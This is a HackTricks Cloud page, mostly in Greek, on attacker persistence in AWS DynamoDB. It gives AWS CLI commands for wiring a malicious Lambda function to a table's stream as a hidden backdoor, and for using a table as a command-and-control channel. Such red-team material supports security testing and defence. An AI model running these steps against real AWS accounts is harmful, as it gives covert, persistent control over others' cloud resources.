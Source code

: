 # AWS - DynamoDB Persistence

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στο** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) ή στο [**telegram group**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### DynamoDB

Για περισσότερες πληροφορίες, επισκεφθείτε:

{% content-ref url="../aws-services/aws-dynamodb-enum.md" %}
[aws-dynamodb-enum.md](../aws-services/aws-dynamodb-enum.md)
{% endcontent-ref %}

### DynamoDB Triggers με Backdoor Lambda

Χρησιμοποιώντας τους triggers του DynamoDB, ένας επιτιθέμενος μπορεί να δημιουργήσει μια **κρυφή backdoor** συνδέοντας μια κακόβουλη λειτουργία Lambda με έναν πίνακα. Η λειτουργία Lambda μπορεί να ενεργοποιηθεί όταν ένα στοιχείο προστεθεί, τροποποιηθεί ή διαγραφεί, επιτρέποντας στον επιτιθέμενο να εκτελέσει αυθαίρετο κώδικα εντός του λογαριασμού AWS.

{% code overflow="wrap" %}
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
{% endcode %}

Για να διατηρήσει την επιμονή, ο επιτιθέμενος μπορεί να δημιουργήσει ή να τροποποιήσει στοιχεία στον πίνακα DynamoDB, γεγονός που θα ενεργοποιήσει τη κακόβουλη λειτουργία Lambda. Αυτό επιτρέπει στον επιτιθέμενο να εκτελεί κώδικα εντός του λογαριασμού AWS χωρίς άμεση αλληλεπίδραση με τη λειτουργία Lambda.

### DynamoDB ως Κανάλι C2

Ένας επιτιθέμενος μπορεί να χρησιμοποιήσει έναν πίνακα DynamoDB ως **κανάλι εντολών και ελέγχου (C2)** δημιουργώντας στοιχεία που περιέχουν εντολές και χρησιμοποιώντας συμβιβασμένα instances ή λειτουργίες Lambda για να ανακτούν και να εκτελούν αυτές τις εντολές.
```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```
Οι παραβιασμένες περιπτώσεις ή οι λειτουργίες Lambda μπορούν περιοδικά να ελέγχουν τον πίνακα C2 για νέες εντολές, να τις εκτελούν και προαιρετικά να αναφέρουν τα αποτελέσματα πίσω στον πίνακα. Αυτό επιτρέπει στον επιτιθέμενο να διατηρεί την επιμονή και τον έλεγχο πάνω στους παραβιασμένους πόρους.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
